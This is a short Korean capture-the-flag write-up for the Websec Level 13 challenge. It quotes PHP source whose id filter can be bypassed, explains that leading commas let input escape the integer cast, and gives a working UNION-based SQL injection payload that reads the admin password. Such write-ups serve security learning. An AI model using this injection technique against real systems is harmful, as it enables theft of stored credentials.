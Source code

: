 ```yaml
---
title : "Websec - Level 13"
excerpt : "Websec - Easy Level 13"
toc: true
toc_sticky: true
categories:
  - Websec
tags:
  - sql injection
---
```


## 1. Source code
``` php
$db->exec('CREATE TABLE users (
  user_id   INTEGER PRIMARY KEY,
  user_name TEXT NOT NULL,
  user_privileges INTEGER NOT NULL,
  user_password TEXT NOT NULL
)');                            // users table

$db->prepare("INSERT INTO users VALUES(0, 'admin', 0, '$flag');")->execute();

if (isset($_GET['ids'])) {
    if ( ! is_string($_GET['ids'])) {
        die("Don't be silly.");
    }

    if ( strlen($_GET['ids']) > 70) {
        die("Please don't check all the privileges at once.");
    }

  $tmp = explode(',',$_GET['ids']);
  for ($i = 0; $i < count($tmp); $i++ ) {
        $tmp[$i] = (int)$tmp[$i];
        if( $tmp[$i] < 1 ) {
            unset($tmp[$i]);
        }
}
$selector = implode(',', array_unique($tmp));
$query = "SELECT user_id, user_privileges, user_name FROM users WHERE (user_id in (" . $selector . "));";
```

## 2. Vulnerability
로컬에 코드를 복사를 해와서 여러가지를 넣다가 ','의 개수에 따라 for문에서 오류가 나오는 것을 발견을 함.  
간단하게 확인을 하면 값으로 ,a를 주면 $selector의 값은 a가 됨.

## 3. Solution
','가 3개일 때 원하는 문자열이 나오는 것을 확인함.  
```,,,1)) union select 1,2,user_password from users-- ```